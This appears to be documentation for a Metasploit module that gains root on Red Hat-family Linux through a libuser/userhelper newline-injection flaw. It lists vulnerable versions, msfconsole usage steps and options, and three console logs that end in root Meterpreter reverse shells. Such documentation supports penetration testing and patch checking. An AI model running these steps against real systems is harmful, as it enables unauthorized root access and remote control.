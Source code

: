 ## Description

  This module attempts to gain root privileges on Red Hat based Linux
  systems, including RHEL, Fedora and CentOS, by exploiting a newline
  injection vulnerability in `libuser` and `userhelper` versions prior
  to `0.56.13-8` and version `0.60` before `0.60-7`.

  This module makes use of the `roothelper.c` exploit from Qualys to
  insert a new user with `UID=0` in `/etc/passwd`.

  Note, the password for the current user is required by `userhelper`.

  Note, on some systems, such as Fedora 11, the user entry for the
  current user in `/etc/passwd` will become corrupted and exploitation
  will fail.


## Vulnerable Application

  This module has been tested successfully on libuser packaged versions:

  * `0.56.13-4.el6` on CentOS 6.0 (x86_64)
  * `0.56.13-5.el6` on CentOS 6.5 (x86_64)
  * `0.60-5.el7` on CentOS 7.1-1503 (x86_64)
  * `0.56.16-1.fc13` on Fedora 13 (i686)
  * `0.59-1.fc19` on Fedora Desktop 19 (x86_64)
  * `0.60-3.fc20` on Fedora Desktop 20 (x86_64)
  * `0.60-6.fc21` on Fedora Desktop 21 (x86_64)
  * `0.60-6.fc22` on Fedora Desktop 22 (x86_64)
  * `0.56.13-5.el6` on Red Hat 6.6 (x86_64)
  * `0.60-5.el7` on Red Hat 7.0 (x86_64)

  RHEL 5 is vulnerable, however the installed version of `glibc` (`2.5`)
  is missing various functions required by `roothelper.c`.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/libuser_roothelper_priv_esc`
  4. `set SESSION [SESSION]`
  5. `set PASSWORD [PASSWORD]`
  6. `check`
  7. `run`
  8. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **PASSWORD**

  Password for the current user. (default: blank)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether `roothelper.c` should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ### libuser 0.56.13-5.el6 on Red Hat 6.6 (x86_64)

  ```
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.QQ4pE9nj.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.SJAEHS' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.245
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.245:46065) at 2018-04-23 13:08:51 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 6 (Linux 2.6.32-504.el6.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-5.el7 on CentOS 7.1-1503 (x86_64)

  ```
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.Ake5GA' (103396 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.vbahMY' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.242:48332) at 2018-04-23 13:13:22 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat 7.1 (Linux 3.10.0-229.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-6.fc21 on Fedora Desktop 21 (x86_64)

  ```
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.ByQC9FHS.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.WnBXJkWDa' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.240
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.240:53201) at 2018-04-23 13:16:32 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 21 (Linux 3.17.4-301.fc21.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```


